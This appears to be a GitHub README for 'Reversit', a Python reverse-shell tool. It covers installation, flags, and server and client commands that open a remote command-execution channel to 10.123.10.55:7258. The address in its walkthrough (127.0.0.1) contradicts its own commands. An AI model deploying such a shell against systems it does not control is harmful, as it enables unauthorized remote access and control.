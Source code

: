 # ![Reversit](/img/Reversit.png)
## Persistent Reverse Shell Written in Python 3
## 🔧 Installation
 You will need:
 * Python version 3.10
 * Pip 3 for the client computer
### macOS & Linux
 1. Clone the repository from github: `git clone https://github.com/Brandonli-13/Reversit.git`
 2. Change to Reversit directory: `cd Reversit/`
 3. Make `install` executable: `chmod +x ./install`
 4. Run `./install`: `./install`

## 🔨 Usage
### Flags
 `-h`, `--help`: Display help message<br/>
 `-a`, `--address`: Set IP address to connect to (client) / IP address to listen for a connection on (server)<br/>
 `-p`, `--port`: Set port number to connect to (client) / port number to listen for a connection on (server)<br/>
 `-b`, `--buffer`: Set buffer size, default: 131072 (bytes)<br/>
 `-s`, `--separator`: Set separator between type of request and data, default: \<separator\><br/>
 `-l`, `--listen`: Listen for incoming connections<br/>

### Quick Usage
 Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l`<br/>
 Client: `reversit -a 10.123.10.55 -p 7258 -b -s`

## 🪛 Features
* When the client side closes connection, the server will keep on listening for another connection
* Ability to change directory
* Upload file

## Contributing
Contributions are welcome. Read [this](https://gist.github.com/MarcDiethelm/7303312#file-contributing-md) before contributing to this program.

## ⚙️ How Reversit Works
1. Server: `reversit -a 10.123.10.55 -p 7258 -b -s -l` <-- Starts listening on 127.0.0.1:7258
2. Client: `reversit -a 10.123.10.55 -p 7258 -b -s` <-- Connects to server on 127.0.0.1:7258
3. Client: `ls` <-- Sends `command<separator>ls` to server
4. Server: Recognizes `command` before separator and executes command
5. Server: Sends command output (stdout) to client
6. Client: Displays output
